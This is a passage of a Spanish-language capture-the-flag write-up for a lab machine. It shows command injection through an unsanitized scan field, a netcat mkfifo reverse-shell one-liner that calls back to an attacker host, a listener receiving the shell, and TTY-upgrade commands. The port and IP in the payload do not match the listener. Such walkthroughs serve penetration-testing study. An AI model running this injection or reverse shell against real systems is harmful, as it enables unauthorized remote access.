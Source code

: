Vamos a tratar de concatenar un comando `bash; id` y funciona por que el codigo no esta sanitizado

![](/assets/images/vh-writeup-BoredHB/Web7.png)

## Ganando acceso al sistema

Vamos a enviarnos una reverse shell con `netcat` pones el oneliner despues del `bash; ` y le das al boton de `Scan` para que te envie la shell <https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Nos ponemos en escucha por el puerto que indicaste

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Y recibimos la shell

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.100.15] from (UNKNOWN) [192.168.100.90] 49356
/bin/sh: 0: can't access tty; job control turned off
$ whoami
scanner
$ id
uid=1001(scanner) gid=1001(scanner) groups=1001(scanner)
$ 
```

para que tengas una mejor consola has esto

```bash
script /dev/null -c bash
stty raw -echo; fg
reset xter
ENTER
export TERM=xterm
export SHELL=/bin/bash
```
